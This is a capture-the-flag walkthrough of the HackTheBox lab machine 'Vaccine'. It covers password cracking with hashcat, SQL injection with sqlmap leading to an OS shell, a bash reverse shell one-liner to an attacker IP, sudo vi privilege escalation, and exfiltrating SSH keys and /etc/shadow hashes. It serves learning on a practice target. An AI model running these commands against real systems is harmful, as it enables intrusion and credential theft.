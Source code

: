 *2021-08-15*

*kimm3*
# Walkthrough: Vaccine
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the third box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

## Info gathering and enumeration
**HTTP service**

![init-scan](assets/markdown-img-paste-20210815094145202.png)

Three well known services appear. Let's start with the web server.

![megacorp-login-post](assets/markdown-img-paste-20210815094738830.png)

![megacorp-loing-phpsessid](assets/markdown-img-paste-20210815094754703.png)

It's a login page for "MegaCorp", same company as the previous boxes. It contains a POST-form and stores a cookie with a PHP session id.

We have som plausible username and passwords that might get us in from the previous boxes, but lets check out the ftp service first.

**FTP service**

![ftp-access](assets/markdown-img-paste-20210815095425900.png)

The ftpuser account works to gain access to the ftp service, there's a zip file called 'backup.zip' which we can retrieve.

![zip-file-fail](assets/markdown-img-paste-20210815095555708.png)

The zip contains two files, index.php and style.css, that are password protected. The passwords we've saved from earlier dosen't work so we'll have to try to crack them.

First we have to generate a hash from the password, then we'll use hashcat combined with a big wordlist.

![zip2john](assets/markdown-img-paste-20210815100103776.png)

Generating the hash.

![crackcmd1](assets/markdown-img-paste-20210815101916342.png)

![zipcracked](assets/markdown-img-paste-20210815101136234.png)

Cracking the hash. Use the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) to find the correct mode. It was suffice to do a simple dictionary attack and use the 'rockyou.txt'. Don't forget to clean up the hash file so that only the hash is processed(haschat won't recognize the original output from zip2john).

![index.php](assets/markdown-img-paste-20210815101343226.png)

This actually looks like the login page visited earlier, with some really static web programming - it checks for one set of credentials, admin and a md5 hash.

![crackcmd2](assets/markdown-img-paste-20210815101828756.png)

![indexcracked](assets/markdown-img-paste-20210815101855564.png)

Let's go back to the login page and try this out.

![dashboard](assets/markdown-img-paste-20210815102235164.png)

The page presents a catalog and a search function, no links. If we search for something, the URL changes to:

`http://10.10.10.46/dashboard.php?search=q`

Lets see if sqlmap can find any sqli vulnerabilities with this. Copy the url from the search bar and the cookie from firefox dev tools(ctrl+shift+e).

`sqlmap -u "http://10.10.10.46/dashboard.php?search=q" --cookie="PHPSESSID=8nd61fr6kvehdab0vq8h9m3mvf" --random-agent`

![sqlmap-init](assets/markdown-img-paste-20210815103321724.png)

We get some additional information about the host. It's a linux machine running apache and a postgresql database. A stacked query vulnerability is found.

We can check if the current user is dba(database administrator) and the current database with `--is-dba --current-database`. The user is indeed dba. To further enumerate the the database, use `-D public --schema`-

![is-dba](assets/markdown-img-paste-20210815103756482.png)
![current-database](assets/markdown-img-paste-20210815103816196.png)
![db-schema](assets/markdown-img-paste-20210815103836469.png)

The schema looks like everything we can see in the browser, not that interesting.
## Foothold
With sqlmap, we can use the `--os-shell` to land a shell.

![os-shell](assets/markdown-img-paste-20210815104103492.png)

To get a proper shell, I first tried this one-liner from [payloadsallthethings cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

![bash-tcp](assets/markdown-img-paste-20210815104224851.png)

![bash-not-working](assets/markdown-img-paste-20210815104758415.png)

It dosen't seem to work to run it directly in the shell. So lets create a file and run it with bash.

```
echo "bash -i >& /dev/tcp/10.10.16.37/1234 0>&1" > s.sh
chmod u+x s.sh
bash s.sh
```

![bash-shell](assets/markdown-img-paste-20210815110303197.png)
## Privilege escalation
![users](assets/markdown-img-paste-20210815110526886.png)

There seems to be two users, ftpuser and simon.

![password-postgres](assets/markdown-img-paste-20210815111439110.png)

There's a password in the dashboard.php for the postgres user. Now that we have the password we can see if we can run anything as sudo.

![sudo-l](assets/markdown-img-paste-20210815112349159.png)

We can run vi to edit a database config file, which is good since you can run shell commands from inside vi.

![getting-root](assets/markdown-img-paste-20210815112708634.png)

Run the command with sudo, inside vi do:
`:!/bin/bash/` and you get the shell as root.

The flag is in the '/root' folder as usual.

## Post Exploitation
A bunch of ssh keys is lying around in `/etc/ssh/` folder. You can send them over with netcat.


As root, you can get the password hashes for simon and root in `/etc/shadow` for offline cracking.
